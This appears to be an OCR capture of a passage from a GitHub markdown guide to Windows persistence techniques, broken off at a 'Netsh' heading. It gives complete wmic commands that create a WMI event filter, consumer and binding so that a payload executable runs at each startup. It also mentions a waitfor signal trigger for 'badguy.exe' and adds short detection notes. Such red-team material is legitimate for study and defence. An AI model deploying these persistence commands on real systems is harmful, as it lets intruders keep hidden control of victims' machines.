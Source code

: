 You will send a signal to target_macheine, and your **badguy.exe** will be executed.
(You need to be in **LAN** with *target_machine*)

*refer: https://pentestlab.blog/2020/02/04/persistence-waitfor/*

#### Detection:
User can see imported modules by executing

```powershell
write-host "$PSModulePath"
```

</br></br>

# Admin

</br>

## Using WMI (Windows Management Instrumentation)

Windows Management Instrumentation (WMI) enables system administrators to perform tasks locally and remotely.

Typically persistence via WMI event subscription requires creation of the following three classes which are used to store the payload or the arbitrary command, to specify the event that will trigger the payload and to relate the two classes (__EventConsumer &__EventFilter) so execution and trigger to bind together.

-   **__EventFilter** // Trigger (new process, failed logon etc.)
-   **EventConsumer** // Perform Action (execute payload etc.)
-   **__FilterToConsumerBinding** // Binds Filter and Consumer Classes

#### Example:
Execution of the following commands will create three events in the _“**root\subscription**“_ namespace. The arbitrary payload will be executed within 60 seconds every time Windows starts.
```powershell
 wmic /NAMESPACE:"\\root\subscription" PATH __EventFilter CREATE Name="PentestLab", EventNameSpace="root\cimv2",QueryLanguage="WQL", Query="SELECT * FROM __InstanceModificationEvent WITHIN 60 WHERE TargetInstance ISA 'Win32_PerfFormattedData_PerfOS_System'"
 wmic /NAMESPACE:"\\root\subscription" PATH CommandLineEventConsumer CREATE Name="PentestLab", ExecutablePath="C:\Windows\System32\pentestlab.exe",CommandLineTemplate="C:\Windows\System32\pentestlab.exe"
 wmic /NAMESPACE:"\\root\subscription" PATH __FilterToConsumerBinding CREATE Filter="__EventFilter.Name=\"PentestLab\"", Consumer="CommandLineEventConsumer.Name=\"PentestLab\""
```

Add new event to database and set the execution timer.


#### Detection:

User can see malicious string in *WMI Database Enties*

</br></br>
	
## Netsh
